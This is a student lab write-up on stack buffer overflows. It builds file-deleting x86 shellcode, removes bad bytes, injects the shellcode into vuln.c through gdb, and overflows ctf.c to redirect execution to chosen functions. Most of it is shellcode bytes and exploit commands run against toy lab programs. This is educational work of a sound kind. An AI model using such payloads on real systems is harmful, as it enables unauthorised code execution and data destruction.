# Lab2
---
## Task 1: Inject code to delete file
**Source code: .asm file**

**Run virtual environment by docker file**
`docker run -it --privileged -v "C:/Users/ToanKhoa/Desktop/WorkSpace/IS (2024)/Security-labs:/home/seed/seclabs" img4lab`

**Run file asm and get the shellcode**
1. `nasm -g -f elf file_del.asm`
2. `ld -m elf_i386 -o file_del file_del.o`

**Get shellcode:**
- `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
> We have the shellcode: \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\

->  We remove \xdummyfile because it is not meaningful hexadecimal code.

**Here, we will use the vuln.c program to trigger a buffer overflow.**

**Stack frame**

- The goal of using the buffer overflow vulnerability this time is to execute the assembly 
code mentioned earlier to delete the file named "dummyfile." The best approach is to take the shellcode from that code, place it in the buffer area, treat it as data, and when the return occurs, return to that buffer location. At that point, the data will be read as code and executed.
- Because the buffer size is 64 bytes, we need to pass 68 bytes and 4 bytes for the return address.
- Noticing that the shellcode is already 36 bytes, we need to add 32 bytes and a 4-byte address: shellcode (36 bytes) + placement code (32 bytes) + address (4 bytes).
**Here, we will use the vuln.c program to trigger a buffer overflow**
- To verify, we will perform the following steps:

- We set breakpoint at address : **0x0804846b**
- Then we run program by: `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")`
- And see result in **x/150xb $esp**
  
  ->  We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the strcpy function terminates the string, causing the interruption.
**Observing the ASCII table, we need to avoid the following characters:**
  - `0x00` because it marks the end of a string.
  - `0x09` because it's the tab character and would split the argument.
  - `0x0a` because it's the newline character and would also terminate the string.
Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:

**Let change file asm to this:**


**Now we go to get shellcode again:**
`\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

- We can see that the shellcode no longer contains values that would terminate the transmitted string, 
except for the 0x00 character at the end of the string, due to this assembly instruction:

- And we can recognize that the characters: \x64\x75\x6d\x6d\x79\x66\x69\x6c\x65 are indeed the hexadecimal representation of the string "dummyfile". We will address this issue later.
**For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to prevent string termination and to identify the position of the return frame.**
- We run this in terminal:
  - `r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'\x90'*32+'\xff\xff\xff\xff')")`
  - Then result:

- At this point, the program will likely report an error because it cannot find the address 0xffffffff.
  - We need to set 0x0c to 0x00 at the address 0xffffd66b by using command: set {unsigned char} 0xffffd66b = 0x00
  - we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff.
  > `set *0xffffd6dc = 0xffffd658`

**Result:**

`objdump -d file_del`

- As we can see, the dummyfile is start from 0xffffd6b2 not from 0x080407a in C program!
- We need to set 0xffffd6a1 to point at that using command: `set *0xffffd6a1 = 0xffffd6b2`

**Continue running the program**

-> File deleted . Done

## Task 2: Conduct attack on ctf.c
**File code**

- We need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:
`p=0x04081211` ; `q=0x44644262`
`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`
= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`

**Run the virtual environment by docker file**

**Debug ctf.c and create ctf.out file:**

**Get the address of the myfunc function by this command:** `objdump -d ctf.out|grep myfunc`

-> So we obtain the address of the myfunc funtion: **0804851b**
**Connect gdb and run by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`
- So 
- So we have to create the file:
  
- We run again `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")` in gdb ctf.out -q 
- Then we have 
-  It's not understand and stop running with the debug 0x61616161 in ??
-  We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q
  
**Get the exit's address** `objdump -d ctf.out|grep exit`

-> So we obtain the address of the exit: 080483e0
**Connect gdb and run again by this command:** `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x04\x08'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`
**Result**

-> **We done this lab**

**Stack Frame**

